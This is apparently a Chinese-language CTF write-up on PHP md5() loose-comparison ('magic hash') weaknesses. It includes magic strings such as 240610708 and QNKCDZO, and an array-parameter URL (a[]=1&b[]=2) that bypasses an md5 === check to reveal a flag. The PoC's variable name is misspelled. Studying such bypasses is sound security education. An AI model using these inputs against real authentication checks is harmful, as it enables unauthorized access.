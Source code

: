 # php md5 漏洞

## md5() == '0'

* 原理

对字符串 str 满足 md5(str) 为 **0exxx（xxx全为数字,共30位）**, 则 md5(str) == '0' is true
这是php做字符串 == 比较时，进行类类型转换所致

* poc

```php
$uasername='240610708';  //md5(username)='0e462097431906509019562988736854'
if (md5($username)=="0"){
	echo "Matchs"."<br/>";
}
```

* ctf example

```php
if (isset($_GET['a']) and isset($_GET['b']))
    if ($_GET['a'] != $_GET['b'])
    	if (md5($_GET['a']) === md5($_GET['b']))
        	die('Flag: '.$flag);
    else
        print 'Wrong.';
```

开始没注意到 === 以为是利用php md5()函数的漏洞

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO'));
var_dump(md5('aabg7XSs') == md5('aabC9RqS'));
?>
```

无果后看到 ===,真要找md5碰撞??

```
http://xxxx.com/web.php?a[]=1&b[]=2
```

成功拿到Flag

在第二个if处if ($_GET['a'] != $_GET['b'])时,因为此时a跟b是两个数组,而两个数组内容不一样,所以为True.

到第三个if时if (md5($_GET['a']) === md5($_GET['b'])),直接$_GET[‘a’]得到的是Array,$_GET[‘b’]也是一样Array,所以md5(Array) === md5(Array)成功绕过



